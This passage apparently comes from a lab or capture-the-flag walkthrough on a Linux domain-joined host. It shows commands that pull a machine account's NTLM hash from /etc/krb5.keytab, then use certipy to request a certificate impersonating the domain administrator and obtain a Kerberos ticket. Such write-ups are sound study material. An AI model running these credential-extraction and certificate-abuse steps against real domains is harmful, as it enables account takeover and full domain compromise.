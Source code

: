 We just need to find the NTLM hash of `MAIL01`, but being on a `Linux` box, we will use `keytabextract`. Don't forget that on Linux domain joined machines, the NTLM hash of the computer account can be found inside `/etc/krb5.keytab`.
![](../img/57.png)

Extract NTLM hash for `MAIL01$`:
```
python3 keytabextract.py /etc/krb5.keytab
```
![](../img/58.png)

Request certificate to impersonate `administrator`:
```
certipy req -u MAIL01\$@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -ca hybrid-DC01-CA -template HybridComputers -dc-ip 10.10.220.181 -target DC01 -dns DC01 -upn 'administrator@hybrid.vl' -key-size 4096
```
![](../img/59.png)

```ad-note
Specify the keysize or you will encounter the following error: CERTSRV_E_KEY_LENGTH
```
Get TGT using the `.pfx` certificate:
```
certipy auth -pfx administrator_dc01.pfx
```